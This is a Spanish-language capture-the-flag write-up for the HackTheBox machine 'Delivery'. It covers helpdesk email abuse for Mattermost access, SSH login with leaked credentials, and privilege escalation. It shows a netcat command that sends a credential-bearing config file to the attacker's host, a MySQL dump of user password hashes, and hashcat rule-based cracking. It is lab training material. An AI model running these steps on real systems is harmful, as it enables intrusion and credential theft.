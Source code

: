 ```yaml
---
layout: default
---
```

![image](../../Imágenes%20Máquinas/DELIVERY.webp)


# DELIVERY [HACKTHEBOX]
### (Host Enumeration, Support Ticket System Exploitation, Information Leakage, SQL Database Enumeration, Hash Cracking, Hashcat Rules for BruteForce)

#### - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 

# NMAP Scan

Empezamos haciendo un escaneo de nmap con los siguientes argumentos:

```bash
nmap -p- --open -sS -sCV -T5 10.10.10.222 -n -Pn -vvv -oN escaneo_nmap
```

Nos encuentra varios puertos abiertos:

![image](../zimages/Pasted_image_20241117232318.png)

Si nos metemos en la web (puerto 80) y pinchamos donde pone "HelpDesk", nos lleva a un dominio el cual no nos conecta:

![image](../zimages/Pasted_image_20241117232430.png)

Nos tendremos que ir a /etc/hosts y añadirlo, una vez hecho, ya nos muestra el contenido:

![image](../zimages/Pasted_image_20241118000804.png)

# Web Enumeration

Si le damos a "Open a New Ticket", nos sale esto:

![image](../zimages/Pasted_image_20241118012424.png)

Después de poner datos aleatorios y darle a "Create Ticket", nos sale el siguiente mensaje:

![image](../zimages/Pasted_image_20241118012444.png)

Ahora vamos a meternos a "Check Ticket Status", poniendo nuestro email y el ID del ticket que acabamos de crear, nos entra en una especie de correo temporal de gestión de tickets:

![image](../zimages/Pasted_image_20241118012723.png)

Ahora que tenemos esto, si recordamos el mensaje que nos puso cuando creamos el ticket, vimos que creaba un email con el número de id para la gestión del ticket, es decir, puede ser que tengamos un posible correo al cual le lleguen mensajes y nos los ponga como respuesta a nuestro ticket. 

Si nos fijamos en el escaneo de nmap, vemos que hay un 3er puerto abierto (8065), nos metemos en la web y nos aparece un panel de login, también nos da una opción a registrarnos, como tenemos un posible email, vamos a darle y metemos nuestros datos con el email que se creó:

![image](../zimages/Pasted_image_20241118012853.png)

Una vez le damos a "Create Account", nos sale este mensaje:

![image](../zimages/Pasted_image_20241118013224.png)

Si ahora nos vamos a la web donde tenemos el ticket activo y recargamos, vemos que tenemos una nueva respuesta, que en verdad es el correo de confirmación que se envió:

![image](../zimages/Pasted_image_20241118013240.png)

# User Flag

En el correo hay un link, vamos a meternos:

![image](../zimages/Pasted_image_20241118013534.png)

Una vez metida la contraseña, seleccionamos el grupo "internal" y nos aparece esto:

![image](../zimages/Pasted_image_20241118013555.png)

Ahora que tenemos unas posibles credenciales, vamos a intentar entrar por ssh, que era otro de los puertos que había abiertos:

![image](../zimages/Pasted_image_20241118014300.png)

Ya tendríamos la flag de user en su directorio personal.

# PRIVESC / Root Flag

Ahora vamos a enumerar más usuarios del sistema mediante el siguiente comando:

```bash
cat /etc/passwd | grep "sh$"
```

Nos muestra a 'root', 'maildeliverer' y 'mattermost':

![image](../zimages/Pasted_image_20241118041947.png)

Vamos a intentar buscar información de mattermost en el sistema, para ello, utilizamos el siguiente comando:

```bash
find / 2>/dev/null | grep -i mattermost
```

Y este es el output:

![image](../zimages/Pasted_image_20241118042127.png)

Son muchas líneas y difíciles de leer, vamos a modificar el output para que nos ponga sólo lo que queremos ver:


```bash
find / 2>/dev/null | grep -i mattermost | grep -vE "sys|prepacked|cgroup|plugins|templates|client|i18n|fonts"
```

Ahora mejor:

![image](../zimages/Pasted_image_20241118042154.png)

Si nos fijamos en las rutas que nos saca, vemos una que nos llama la atención:

`/opt/mattermost/config` 

También podríamos haber ejecutado el siguiente comando para descubrirlo:

`ps -faux | grep -i mattermost`

Si nos metemos y listamos, vemos un archivo "config.json"

![image](../zimages/Pasted_image_20241118042409.png)

Al leerlo nos aparece todo en blanco y es complicado de leer, para verlo mejor, vamos a utilizar netcat para pasarnos el output a nuestra máquina víctima:

```bash
cat config.json | nc 10.10.16.2 4443
```

Nos ponemos en escucha y le concatenamos `jq` para verlo mejor. Si nos fijamos en el output, vemos algo que nos llama la atención:

![image](../zimages/Pasted_image_20241118044435.png)

Ahora que tenemos otras credenciales (`mmuser:Crack_The_MM_Admin_PW`) de lo que parece ser una base de datos, vamos a intentar entrar:

```bash
mysql -u mmuser -p
```

Y nos saca esto:

![image](../zimages/Pasted_image_20241118044604.png)

Vamos a entrar en la base de datos "mattermost" y listar las tablas:

```bash
use mattermost
show tables;
```

Una vez listadas, vemos que hay una que se llama "Users", vamos a ver que tablas contiene describiéndola:

```bash
describe Users;
```

Como hay muchas tablas, vamos a seleccionar sólo las que nos interesan:

```bash
select Username, Password from Users;
```

Ahora ya tenemos lo que queremos, son hashes de las contraseñas de los usuarios de la web "mattermost". Si nos fijamos hay un hash de root:

![image](../zimages/Pasted_image_20241118044846.png)

Recordando la web de Mattermost, había un mensaje en el chat interesante y relacionado con esto:

![image](../zimages/Pasted_image_20241118045007.png)

Ahora ya tenemos todo lo que necesitamos para ser root, vamos a guardar el hash en un archivito:

![image](../zimages/Pasted_image_20241118045037.png)

Y la palabra en la cual nos vamos a basar para hacer un ataque con hashcat:

![image](../zimages/Pasted_image_20241118045140.png)

Vamos a buscar que tipo de hash es para poder hacer la fuerza bruta:

```bash
hashcat --example-hashes | grep '$2a' -B 11
```

Y este es el modo que queremos:

![image](../zimages/Pasted_image_20241118045247.png)

Ahora, con hashcat, vamos a realizar un ataque de fuerza bruta utilizando el diccionario de reglas "rockyou-30000", que contiene varias reglas para crear un diccionario basándose en la palabra que le hemos indicado ("PleaseSubscribe!"):

```bash
hashcat -m 3200 -a 0 -r /usr/share/hashcat/rules/rockyou-30000.rule hash base_password
```

Esperamos un rato y nos saca la contraseña sin problemas:

![image](../zimages/Pasted_image_20241118045426.png)

Ahora si volvemos a la máquina víctima, podemos probar a convertirnos en root con esa contraseña:

![image](../zimages/Pasted_image_20241118045512.png)

Una vez somos root, solo nos queda irnos al directorio '/root' y ver la flag.

# ./ROOTED

![image](../zimages/Pasted_image_20241118045635.png)

